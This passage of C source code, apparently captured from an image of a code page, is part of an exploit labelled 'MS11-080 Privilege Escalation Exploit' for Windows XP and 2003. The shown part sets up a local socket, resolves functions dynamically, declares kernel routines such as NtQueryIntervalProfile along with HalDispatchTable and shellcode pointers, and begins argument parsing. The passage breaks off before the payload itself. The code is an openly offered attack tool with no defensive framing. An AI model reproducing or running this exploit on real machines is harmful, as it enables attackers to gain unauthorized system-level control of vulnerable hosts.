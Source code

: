 		fprintf(stderr, "socket() failed");
        exit(1);
	}

	address.sin_family = AF_INET;
	address.sin_port = htons(4455);
	address.sin_addr.s_addr = inet_addr("127.0.0.1");

	if (!connect(sock, (struct sockaddr *) &address, sizeof(struct sockaddr_in)) == INVALID_SOCKET){
		fprintf(stderr, "connect() failed: %d",GetLastError());
        exit(1);
	}

	return sock;
}

FARPROC GetFunctionAddress(LPCSTR libraryName, LPCSTR functionName) {
	HMODULE hModule;
	hModule = LoadLibrary(libraryName);
	if(hModule==NULL)
		return NULL;

	return GetProcAddress(hModule,functionName);
}

char* int2chararray(int i)
{
	char* ch_array=(char*)calloc(4,sizeof(char));
	ch_array[0]=i&0xff;
	ch_array[1]=(i>>8)&0xff;
	ch_array[2]=(i>>16)&0xff;
	ch_array[3]=(i>>24)&0xff;
	return ch_array;
}

int main(int argc, char* argv[]){

	LPVOID driverBase,halBase;
	_NtAllocateVirtualMemory NtAllocateVirtualMemory;
	_ZwDeviceIoControlFile ZwDeviceIoControlFile;
	_NtQueryIntervalProfile NtQueryIntervalProfile;
	int client;
	SIZE_T written;
	NTSTATUS status;
	HMODULE hKernel;
	int krnlBase;
	char* os;
	int HaliQuerySystemInformation, HalpSetSystemInformation, HalDispatchTable;	
	int shellcode_address_dep, shellcode_address_nodep;
	int regionSize = 0x1000;
	int baseAddr = 0x1001;
	IO_STATUS_BLOCK IoStatusBlock;
	unsigned long out;
	CHAR* restore_ptrs,*shellcode;

	printf("[*] MS11-080 Privilege Escalation Exploit\n");

	if(argc < 2){
		printf("usage:  %s <XP|2K3>\n",argv[0]);
		return 0;
	}else if(!stricmp(argv[1],"XP")){
		os = "XP";
	}else if(!stricmp(argv[1],"2K3")){
		os = "2K3";
	}else{
		printf("usage:  %s <XP|2K3>\n",argv[0]);
		return 0;	
	}
